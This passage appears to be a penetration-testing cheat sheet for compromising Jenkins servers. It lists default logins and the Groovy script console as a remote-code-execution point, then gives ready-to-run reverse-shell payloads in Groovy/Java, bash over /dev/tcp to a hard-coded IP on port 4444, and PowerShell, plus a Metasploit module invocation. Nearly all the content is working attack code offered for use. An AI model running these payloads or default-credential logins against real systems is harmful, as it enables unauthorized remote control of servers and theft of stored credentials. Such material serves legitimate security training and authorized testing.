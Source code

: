 - default credentials (admin:admin, jenkins:jenkins)
- /configureSecurity/ - Shows authentication method (After login)
- /script - Groovy script console (potential RCE) (After login)
- Jenkins often stores credentials in `/credentials/store/system/domain/_/` Check build job configurations for hardcoded credentials



## Reverse Shells

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

OR 

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.68.184/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```  

OR
```
powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('your_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"".execute()
```
Metasploit Module
```bash
use exploit/multi/http/jenkins_script_console
set RHOSTS target_ip
set TARGETURI /
set LHOST your_ip
exploit
```